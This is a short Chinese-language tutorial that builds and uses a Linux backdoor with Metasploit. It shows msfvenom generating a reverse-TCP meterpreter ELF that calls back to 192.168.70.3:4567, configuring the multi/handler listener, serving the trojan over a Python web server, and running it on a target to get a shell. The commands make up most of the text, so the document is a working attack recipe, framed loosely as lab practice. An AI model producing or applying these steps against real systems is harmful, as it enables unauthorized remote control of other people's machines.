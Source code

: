 # 一、环境准备

1. MSF-Metasploit Framework
2. 一台靶机

# 二、木马生成

1. 生成一个Linux后门

   ```
   msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4567 -f elf > shell.elf
   ```

   ![1643108165465](https://img.gyxnb.top/img/1643108165465.png)

# 三、配置监控

1. 启动msf   终端内输入：`msfconsole` 启动msf

   ![1643108186343](https://img.gyxnb.top/img/1643108186343.png)

2. 载入监控模块  msf中输入：  `use exploit/multi/handler`

3. 加载payload  msf终端中输入：

   `set payload linux/x64/meterpreter/reverse_tcp`

4. 配置payload  msf终端中输入：`show options`

   ![1643108202630](https://img.gyxnb.top/img/1643108202630.png)

5. 配置payload监控IP msf终端中输入： `set  lhost  192.168.70.3`

6. 配置payload监控端口  msf终端中输入：`set lport  4567` （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：`show options`

8. 执行监控  msf终端中输入： `run`

   ![1643108218621](https://img.gyxnb.top/img/1643108218621.png)

# 四、攻击利用

1. 将木马上传到靶机 

   通过python创建一个简单web服务

   `python3 -m http.server 80`

   或

    `python2 -m SimpleHTTPServer 80`

2. 在靶机上**执行**木马 

   

3. 完成攻击利用

   ![1643108263211](https://img.gyxnb.top/img/1643108263211.png)













